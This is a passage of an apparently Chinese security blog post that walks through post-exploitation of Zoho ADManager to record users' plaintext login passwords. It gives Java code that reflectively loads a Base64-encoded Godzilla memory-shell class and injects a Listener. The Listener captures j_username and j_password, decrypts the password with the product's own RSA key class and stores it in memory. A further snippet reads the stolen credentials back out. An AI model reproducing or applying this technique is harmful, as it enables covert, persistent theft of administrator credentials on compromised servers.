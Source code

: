   
  
获取session如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwcMYT8Ja3nVKcG3S13ibv0rxAsS0skIGibMg2ibOhhYqw9UgCibicrZOY0ibA/640?wx_fmt=png "")  
  
**6.明文密码记录**  
  
Zoho ADManager的登录认证是通过再web.xml中，调用Tomcat本身鉴权机制进行认证，核心代码在AuthenticatorBase 中，AuthenticatorBase再调用conf/server.xml中配置的Realm进行登录校验，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwZFSOov1NmxZyyRLOMoPXyfRChHgtoArg00vJVCtyuU7L2QpktuMa0g/640?wx_fmt=png "")  
  
也就是 com.adventnet.authentication.realm.CustomJAASRealm#authenticate方法  
  
所以说我们并没办法向内存中注入一个全局的Filter进行密码拦截，因为校验逻辑是在FIlter之前进行，且password字段在传入服务器时就已经是加密状态  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabw1acj0TrknfNyjXbOMwo3aslfXXMUwHLgbbJibRdhSpOWvBx9QGAeibzw/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwibicjFBuJwnBDpQicnMlgBVjEuahffmWOM8wqrB58sHj4zt3r2XbEWd0A/640?wx_fmt=png "")  
  
到此，虽然数据库中存储的密码是哈希不可解密的，但是可以通过RSAKeyPairGenerator.getInstance().decrypt(password)方法获取到用户传入的参数实现密码解密  
  
既然Filter在登录验证之后，我们可以尝试Listener，经过分析，发现通过注入到内存中Listener可以成功拦截到传入的密码密文  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwG6aLBQCD7icoFL2M3KX1mepVSWFicgAtqpSXdjrkicibelpnkeybeG1FFg/640?wx_fmt=png "")  
  
内存中注入Listener代码逻辑如下：  
  
```
String godzillaMemShellClassBase64 = "yv66vgAAA";    
byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
ClassLoader loader = Thread.currentThread().getContextClassLoader();
Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
defineClassMethod.setAccessible(true);
Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
clazz.newInstance();
returnstr = "Start Record....";
```  
  
  
Listener核心代码记录逻辑将用户传入的username，password存储到类变量中，RecordPassword核心逻辑如下  
```
String username = getParameter(request,"j_username");
String password = getParameter(request,"j_password");
if(username!=null && password!=null){
userinfo.add(username+" "+ RSAKeyPairGenerator.getInstance().decrypt(password));
}
```  
  
相应的，存储明文密码后，对应的读取功能也就是读取内存中RecordPassword类的userinfo属性  
  
```
ClassLoader loader = Thread.currentThread().getContextClassLoader();
Class RecordPasswordclass = loader.loadClass("RecordPassword");
Field userinfofiled = RecordPasswordclass.getDeclaredField("userinfo");
userinfofiled.setAccessible(true);
ArrayList userinfo = (ArrayList)userinfofiled.get(RecordPasswordclass.newInstance());
           
Object tmp;
for(Iterator var6 = userinfo.iterator(); var6.hasNext(); returnstr = returnstr + tmp.toString() + "\r\n") {
tmp = var6.next();
}
```  
  